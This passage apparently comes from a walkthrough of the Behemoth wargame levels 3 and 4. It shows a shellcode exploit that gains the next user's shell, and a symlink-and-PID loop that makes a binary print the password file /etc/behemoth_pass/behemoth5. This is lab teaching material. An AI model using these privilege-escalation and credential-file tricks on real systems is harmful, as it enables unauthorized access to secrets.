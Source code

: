 Running this in gdb crashes with the following:

```text
Program received signal SIGSEGV, Segmentation fault.
0xffffdef1 in ?? ()
```

The address matches the address of our shellcode. Let's try it outside of gdb and see if it works. 

```
behemoth3@melinda:/tmp/koji$ whoami
behemoth3
behemoth3@melinda:/tmp/koji$ (cat in.txt ; cat) | /behemoth/behemoth3 
Identify yourself: Welcome, ���� 
.
.
.
whoami
behemoth4
```

## Level 4

Running behemoth4 causes it to print out "PID not found"

```
behemoth4@melinda:~$ /behemoth/behemoth4 
PID not found!
```

What's it looking for? Using strace, we see that it's attempting to open a file in /tmp named after its PID. 

```
getpid()                                = 3437
brk(0)                                  = 0x804b000
brk(0x806c000)                          = 0x806c000
open("/tmp/3437", O_RDONLY)             = -1 ENOENT (No such file or directory)
```

Looking at gdb, we see that if it does find that file it's looking for, it opens it up and prints its contents to stdout. If we run strace on the binary several times, we'll see that the PID numbers eventually loop back to smaller numbers. So all we need to do is create a symbolic link to /etc/behemoth_pass/behemoth5 in /tmp. This symbolic link needs to have a numeric name that falls  within the range of a PID value. In this case, we'll pick a random number 1856. 

```
behemoth4@melinda:~$ ln -s /etc/behemoth_pass/behemoth5 /tmp/1856
```

Now we'll run behemoth4 continously until it gets a PID of 1856 and it will print out the password:

```
behemoth4@melinda:~$ while :; do x=`/behemoth/behemoth4`; echo $x | grep "PID not found"; if [[ $? -ne 0 ]]; then break; fi; done
```

After some time, we get a hit:
